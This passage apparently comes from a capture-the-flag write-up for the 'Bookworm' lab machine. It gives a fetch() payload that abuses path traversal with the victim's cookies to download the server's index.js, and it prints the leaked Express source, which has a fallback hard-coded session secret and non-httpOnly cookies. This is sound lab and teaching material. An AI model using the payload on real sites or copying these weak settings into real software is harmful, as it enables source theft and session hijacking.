 

    fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=../index.js", {credentials: 'include'})



The main source is:


    const express = require("express");
    const nunjucks = require("nunjucks");
    const path = require("path");
    const session = require("cookie-session");
    const fileUpload = require("express-fileupload");
    const archiver = require("archiver");
    const fs = require("fs");
    const { flash } = require("express-flash-message");
    const { sequelize, User, Book, BasketEntry, Order, OrderLine } = require("./database");
    const { hashPassword, verifyPassword } = require("./utils");
    const { QueryTypes } = require("sequelize");
    const { randomBytes } = require("node:crypto");
    const timeAgo = require("timeago.js");

    const app = express();
    const port = 3000;

    const env = nunjucks.configure("templates", {
      autoescape: true,
      express: app,
    });

    env.addFilter("timeago", (val) => {
      return timeAgo.format(new Date(val), "en_US");
    });

    app.use(express.urlencoded({ extended: false }));
    app.use(
      session({
        secret: process.env.NODE_ENV === "production" ? randomBytes(69).toString("hex") : "secret",
        resave: false,
        saveUninitialized: true,
        cookie: {
          maxAge: 1000 * 60 * 60 * 24 * 7,
          httpOnly: false,
        },
      })
    );
    app.use(flash({ sessionKeyName: "flashMessage", useCookieSession: true }));
    app.use("/static", express.static(path.join(__dirname, "static")));
    app.use(
      fileUpload({
        limits: { fileSize: 2 * 1024 * 1024 },
      })
    );
